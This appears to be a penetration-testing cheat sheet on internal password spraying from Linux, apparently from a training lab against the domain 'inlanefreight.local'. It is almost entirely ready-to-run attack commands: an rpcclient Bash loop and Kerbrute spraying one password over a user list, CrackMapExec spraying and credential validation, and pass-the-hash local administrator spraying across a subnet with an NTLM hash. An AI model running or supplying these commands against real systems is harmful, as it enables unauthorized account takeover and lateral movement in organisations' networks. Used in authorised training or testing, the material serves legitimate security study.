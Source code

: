 Internal Password Spraying - from Linux

Using a Bash one-liner for the Attack
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Using Kerbrute for the Attack
```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

Using CrackMapExec & Filtering Logon Failures
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Validating the Credentials with CrackMapExec
```shell
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

Local Admin Spraying with CrackMapExec
```shell
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```














